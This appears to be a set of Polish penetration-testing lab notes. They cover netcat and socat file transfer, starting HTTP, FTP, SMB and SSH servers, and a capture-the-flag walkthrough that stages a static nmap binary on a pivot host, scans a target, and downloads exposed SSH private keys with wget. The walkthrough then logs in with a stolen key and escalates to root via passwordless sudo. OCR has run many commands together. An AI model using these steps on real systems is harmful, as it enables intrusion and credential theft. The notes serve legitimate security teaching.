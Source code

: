# Netcat
## TCP
### Download
Ściągnięcie pliku hostowanego przez maszynę 192.168.100.5 na porcie 10001/tcp.  
`nc 192.168.100.5 10001 > tcpconnect.png`  
albo  
`socat-u tcp-connect:192.168.100.5:10001 open:tcpconnect.png,creat`
### Upload
Wysłanie pliku z poprzedniego zadania na port 20001/tcp do hosta 192.168.100.5.  
`cat tcpconnect.png | nc 192.168.100.5 20001`  
alternatywnie socat:  
`socat -u file:tcpconnect.png tcp-listen:20001,reuseaddr`
___
## UDP
### Download
Ściągnięcie pliku hostowanego przez maszynę 192.168.100.5 na porcie 10002/udp.  
`echo | nc -u 192.168.100.5 10002 -w 5 > udpconnect.png`  
### Upload
Wysłanie pliku z poprzedniego zadania na port 20002/udp do hosta 192.168.100.5.  
`cat udpconnect.png |  nc-u 192.168.100.5 20002 -w 5`  
___
## TCP listen
### Download
Ściągnięcie pliku wysyłanego co około 30 sekund na port 10003/tcp na maszynę (Twoją) podłączoną do sieci VPN.  
`nc -lvp 10003 > tcplisten.png`  
### Upload
Zahostowanie pliku z poprzedniego zadania na porcie 20003/tcp na maszynie (Twojej) podłączonej do sieci VPN.  
`cat tcplisten.png |  nc-lvp 20003`  
___
## UDP listen
### Download
Ściągnięcie pliku wysyłanego co około 30 sekund na port 10004/udp na maszynę (Twoją) podłączoną do sieci VPN.  
Po otrzymaniu komunikatu o nawiązaniu połączenia możemy wcisnąć kombinację CTRL-C lub poczekać na timeout (-w 30).  
`nc-luvp 10004 -w 30 > udplisten.png`  
### Upload
Zahostowanie pliku z poprzedniego zadania na porcie 20004/udpna maszynie (Twojej) podłączonej do sieci VPN.  
`cat udplisten.png |  nc -ulvp 20004` #CTRL-C po pojawieniu się napisu „UPLOADED”  
___
## HTTP/HTTPS
### Serwer HTTP (Python)
Uruchomienie serwera HTTP na porcie 80 za pomocą Pythona:  
`python3 -m http.server 80`  
### Serwer HTTP (Apache)
Uruchomienie serwera HTTP Apache2 na porcie 80:  
```
sudo apt update && sudo apt install apache2 #jeżeli apache2 
nie jest zainstalowany
sudo systemctl start apache2
```
### Serwer HTTPS (Apache)
Uruchomienie serwera HTTPS Apache2 na porcie 443:  
```
sudo a2enmod ssl
sudo a2ensite default-ssl.conf
sudo systemctl restart apache2
```
___
## FTP
### Serwer FTP (Python)
Uruchomienie serwera FTP na porcie 21 za pomocą Pythona:  
```
sudo apt update && sudo apt install python3-pyftpdlib
 python3 -m pyftpdlib-p 21
```
___
## SMB
### Serwer SMB (Python)
Uruchomienie serwera SMB na porcie 445 za pomocą Pythona:  
```
locate smbserver.py #skrypt domyślnie zainstalowany na Kali
sudo apt install python3-impacket #komenda do instalacji, jeżeli skrypt nie istnieje
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -ip 0.0.0.0 -smb2support pjatksmbshare /home/student
# użycie skryptu smbserver.py może różnić się od użytej wersji. Zaleca się wykorzystanie przełącznika --help w razie 
problemów.

Gdzie:-ip 0.0.0.0 – oznacza nasłuchiwanie na wszystkich interfejsach-smb2suport – oznacza włączenie wsparcia dla nowszej wersji protokołu SMB
pjatksmbshare– dowolna nazwa udostępnianego zasobu
/home/student – ścieżka udostępnianego katalogu
```
___
## SCP
### Serwer SSH (SCP)
Uruchomienie serwera SSH (SCP) na porcie 22:  
```
sudo apt install openssh-server #jeżeli serwer nie jest zainstalowany
sudo systemctl start ssh
```
___
## Ćwiczenia Pentest
1. Celem zadania jest ściągnięcie na Kali statycznej wersji narzędzia Nmap:  
`wget https://github.com/opsec-infosec/nmap-static-binaries/releases/download/v2/nmap-x64.tar.gz`  
Następnie przeniesienie go w ulubiony sposób na maszynę 192.168.100.5  
`scp nmap-x64.tar.gz student@192.168.100.5:/home/student`  

Po przekopiowaniu archiwum, łączymy się na maszynę za pomocą ssh i wypakowujemy archiwum:  
ssh student@192.168.100.5 #łączymysięzmaszyną192.168.100.5, gdziewgraliśmy Nmap. Hasło: pjatk  
tar zxvf nmap-x64.tar.gz#wypakowanie plikówzarchiwumtar.gznamaszynie 192.168.100.5  

2. Celem zadania jest przeskanowanie maszyny 192.168.200.55 z uwzględnieniem  
 wykrycia wersji usług. Skan uruchamiamy na maszynie 192.168.100.5:  
``` ./nmap-n -Pn-sV-p--vv 192.168.200.55
-n – nie odpytuje DNS,  
-Pn– traktuje hosta jako online, 
-sV– szuka usług (TCP) i ich wersji,
-p- -skanuje wszystkie porty (TCP),
-vv– odpowiada za pokazywanie wyników w czasie rzeczywistym (w trakcie skanowania),
192.168.200.55– adres IP celu. 
```
Skan powinien wykryć usługę webową. Za pomocą curl lub wget możemy  
wyświetlić jej zawartość:  
``` 
curl 192.168.200.55
wget-O - 192.168.200.55
```

3. Celem zadania jest pobranie pary kluczy SSH, które są widoczne na listingu plików w zahostowanym katalogu domowym  
` wget-r --no-parent http://192.168.200.55`  
Komenda wget stworzy katalog o nazwie 192.168.200.55, do którego zapisze wszystkie pliki z serwera webowego:  
` ls-la 192.168.200.55/`

4. Celem zadania jest zalogowanie się do maszyny 192.168.200.55 za pomocą  
zdobytego klucza ssh. Aby się zalogować, musimy znać nazwę użytkownika właściciela klucza. Nazwa ta jest często zapisana w komentarzu klucza  
publicznego:  
`cat ~/192.168.200.55/.ssh/id_ed25519.pub`  
Klucz prywatny musi posiadać bezpieczne uprawnienia, aby móc się nim zalogować:
```
chmod 600 ./192.168.200.55/.ssh/id_ed25519
ssh-i ~/192.168.200.55/.ssh/id_ed25519 webadmin@192.168.200.55 #nazwę 
webadminpoznaliśmy z komentarza w kluczu publicznym
```

5. Ostatnim krokiem jest eskalacja uprawnień do użytkownika root oraz przeczytanie  
flagi z katalogu domowego użytkownika root. Użytkownik webadmin posiada  
możliwość uruchamiania sudo bez hasła, co można wykorzystać do eskalacji:  
```
id
sudo-l
sudo su
```
Ostatnim krokiem jest odczytanie flagi ukrytej w katalogu domowym użytkownika root:  
`cat /root/root.txt`  